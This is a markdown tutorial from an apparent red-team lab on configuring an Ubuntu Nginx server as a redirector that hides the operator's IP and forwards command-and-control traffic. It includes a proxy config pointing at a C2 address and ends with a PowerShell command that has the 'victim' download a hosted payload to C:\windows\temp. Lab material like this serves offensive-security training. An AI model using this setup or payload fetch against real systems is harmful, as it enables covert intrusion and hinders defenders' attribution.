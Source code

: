 # Setting up proxy using Ubunut and Nginx

When running actions as an actor you always want to avoid giving away where you are coming from or your source ip. Typically this is done with a proxy also sometimes known as a LP (listening post), in this case it will be an ubuntu server running Nginx. Your current setup is as follows: 

	parrot-OS <> Victim VM
  
What we will be doing with the Ubuntu server is routing our C2 traffic through it so it appears it as though it is coming from the Ubuntu server and the the Parrot vm.

	Parrot <> Ubuntu <> Victim VM 

<img src="/images/basic-redirector.png" alt="Markdown Monster icon" style="float: left; margin-right: 10px;" />

Lets install any Ubuntu server ISO from the interwebs [here](https://ubuntu.com/download/server).

# Install Nginx

1. First on your new ubntu box lets run an update 
	```
	sudo apt update
	```
2. Now lets install nginx
	```
	sudo apt install nginx
	```
3. Check the status of our new service 
	```
	sudo systemctl status nginx.service
	```
4. Note the following as important file location for Ngnix 
	## Important Nginx File Locations 
	- `/var/www/html` – Website content as seen by visitors.
	- `/etc/nginx` – Location of the main Nginx application files.
	- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
	- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
	- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
	- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
	- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.


# Nginx Reverse Proxy Config 

1. If your Nginx service isnt already running, run the following command
	```
	sudo systemctl start nginx.service
	```
2. lets edit our default config file `/etc/nginx/sites-enabled/default`
	```
	sudo vim /etc/nginx/site-enabled/default
	```
3. Add the following changes
	```nginx
	server {
			listen 80 default_server;
			listen [::]:80 default_server;

			root /var/www/html;

			index index.html;

			server_name *.example.org;

			location / {
					try_files $uri $uri/ @c2;
			}

			location @c2 {
					proxy_pass http://c2-ip-address;
					proxy_redirect off;
					proxy_set_header Host $host;
					proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
			}
	}
	```
> **NOTE:** Set your listening ports for Nginx server and your C2 ip to redirect to.

4. test your config 
    ```bash
    sudo nginx -t
    ```
5. If no error, restart you Nginx server
    ```bs
    sudo systemctl restart nginx.service
    ```
6. Now you can return to your Victim Machine and run a download using powershell through your proxy 
	```powershell 
	iwr -uri http://<ubuntu-nginx-ip>/hosted-payload -outfile C:\windows\temp\gotem.exe
	```

# Resources
- [How to setup NGINX server on ubuntu](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-20-04)
  - > This writeup was made following this if you need a better explination
- [Something forwarding C2 coms](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)
